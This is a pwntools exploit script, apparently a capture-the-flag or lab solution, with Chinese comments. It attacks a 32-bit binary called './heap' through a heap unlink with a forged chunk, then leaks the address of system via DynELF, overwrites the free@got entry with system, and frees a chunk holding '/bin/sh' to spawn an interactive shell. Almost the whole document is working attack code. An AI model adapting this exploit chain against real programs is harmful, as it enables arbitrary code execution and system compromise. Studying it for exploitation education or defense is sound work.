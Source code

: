 ```python

raw_input('add_chunk'+'\n')
add_chunk(128)  #0
add_chunk(128)  #1
add_chunk(128)  #2
add_chunk(128)  #3
set_chunk(3, '/bin/sh')


#fake_chunk
payload = ""
payload += p32(0) + p32(0x80) + p32(chunk_list-0xc) + p32(chunk_list-0x8)
payload += "A"*(0x80-4*4)
#2nd chunk 
payload += p32(0x80) + p32(0x88)

set_chunk(0,payload)

#get the pointer
#改了buf 的指针。
# free 前
#0x8049d60:	0x08657008	0x08657090	0x08657118	0x086571a0
del_chunk(1) 
# free 后
#0x8049d60:	0x08049d54	0x08657090	0x08657118	0x086571a0
#现在buf[0] 指向地址为 &buf[] - 3 ， 可以改写 chunk list 指针 (buf数组)
# 伪造的chunk 中的 fd/bk，为fd/bk所在的chunk 的地址 - 3/2*size_sz

#p32(0x8048420) which addr is ok 
#p32(chunk_list-0xc) 覆盖 buf[0] ， 使其重新指向 chunk_list-0xc
# 没有下面这行，也可以getshell ， 泄露的时候重新覆盖了
set_chunk(0, 'A' * 12 + p32(chunk_list-0xc) + p32(0x8048420))  

raw_input('leak')
#leak system_addr
pwn_elf = ELF('./heap')
d = DynELF(leak, elf=pwn_elf)
sys_addr = d.lookup('system', 'libc')
print("system addr: %#x" % sys_addr)

raw_input('edit free@got')
#使用buf[0] 写入， 使buf[1] 的地址为 free_got地址
data = "A" * 12 + p32(chunk_list-0xc) + p32(free_got)
set_chunk2('0', data)

#buf[1] 的地址为 free_got, 使用 sys_addr 代替 free_got
set_chunk2('1', p32(sys_addr))

# 再次free 就是 system ， getshell
del_chunk('3')
p.interactive()
p.close()
```
